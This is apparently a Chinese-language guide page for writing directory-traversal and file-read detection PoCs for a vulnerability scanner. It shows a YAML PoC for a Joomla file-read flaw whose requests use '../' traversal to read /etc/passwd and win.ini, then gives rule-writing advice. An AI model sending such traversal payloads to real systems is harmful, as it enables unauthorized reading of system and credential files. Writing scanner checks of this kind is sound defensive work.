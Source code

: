 ```yaml
---
title: '目录穿越/任意文件读取'
---
```


```yaml
name: poc-yaml-joomla-cve-2021-28377-fileread
manual: true
transport: http
rules:
    r0:
        request:
            cache: true
            method: GET
            path: /index.php?f=../../../../../../../etc/passwd
        expression: response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r1:
        request:
            cache: true
            method: GET
            path: /index.php?f=../../../../../../../Windows/win.ini
        expression: response.status == 200 && response.body.bcontains(b"for 16-bit app support")
expression: r0() || r1()
detail:
    author: Chaitin
    links:
        - http://example.com
```

在这类漏洞中，必然至少有一个rule会去访问我们所需要读取的文件，那么

- 对于`读取文件`的rule中
    1. 关于读取的文件
        - 需要按照漏洞的利用方式去读取相关的文件
        - 如果目标系统中存在着某些通用的配置文件，那么首先推荐去读取这些web系统内的文件，尽可能地减少发包量，例如可以读取web.config等的文件
        - 其次我们再去考虑系统中的文件，这部分内容建议参考现在我们给出的poc模版相关内容。同时需要注意的是，读取系统文件时，我们需要充分考虑目标web系统能够被架设在哪些系统上，对于可行的系统都要写出相应的rule去进行匹配
    2. 关于匹配的内容
        - 这部分直接依据所读取的文件写出对应的匹配语句即可。但是需要注意的是，除了固有文件内容的匹配之外，如果页面内仍有其他特征内容，这里也是非常推荐去增加匹配这些内容
    3. 补充说明
       - 读取系统文件时，考虑到信息泄露的可能性，比如你的读取的response会记录在某个可以被访问的日志文件中，就会有一定的损害，所以尽量读取一些不会暴露信息的文件，比如`/etc/resolv.conf`等，实在找不到，再选择`/etc/passwd`

其他rule的内容需要按照漏洞的具体内容按需编写

## 模板

[目录穿越/文件读取](/plugins/practice/poc/Template#file-read)
